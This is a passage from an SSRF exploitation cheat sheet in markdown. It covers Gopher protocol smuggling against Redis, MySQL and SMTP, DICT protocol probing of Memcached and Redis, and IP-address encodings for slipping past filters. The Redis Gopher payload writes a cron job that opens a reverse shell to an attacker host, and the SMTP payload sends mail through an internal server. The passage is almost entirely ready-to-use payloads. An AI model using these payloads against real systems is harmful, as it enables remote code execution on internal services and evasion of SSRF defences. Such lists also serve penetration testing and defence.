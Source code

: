 ### 4. 🔗 Protocol Smuggling

#### Gopher Protocol Exploitation
```bash
# Redis exploitation via Gopher
gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/attacker.com/4444 0>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a

# MySQL exploitation via Gopher
gopher://127.0.0.1:3306/_...

# SMTP exploitation via Gopher
gopher://127.0.0.1:25/_HELO%20attacker.com%0AMAIL%20FROM:attacker@attacker.com%0ARCPT%20TO:victim@victim.com%0ADATA%0ASubject:%20SSRF%20Test%0A%0AThis%20is%20a%20test%20email%20sent%20via%20SSRF.%0A.%0AQUIT
```

#### Dict Protocol Exploitation
```bash
# Information gathering via DICT
dict://127.0.0.1:11211/stat    # Memcached stats
dict://127.0.0.1:6379/info     # Redis info
```

## 🚀 Advanced SSRF Techniques

### 1. 🛡️ Filter Bypass Techniques

#### IP Address Obfuscation
```bash
# Decimal representation
http://2130706433/          # 127.0.0.1 in decimal
http://3232235521/          # 192.168.1.1 in decimal

# Hexadecimal representation
http://0x7f000001/          # 127.0.0.1 in hex
http://0xc0a80101/          # 192.168.1.1 in hex

# Octal representation
http://0177.0000.0000.0001/ # 127.0.0.1 in octal

# Mixed representations
http://127.1/               # Short form of 127.0.0.1
http://127.0.1/             # Another short form

# IPv6 representations
http://[::1]/               # IPv6 localhost
http://[::ffff:127.0.0.1]/  # IPv4-mapped IPv6
```
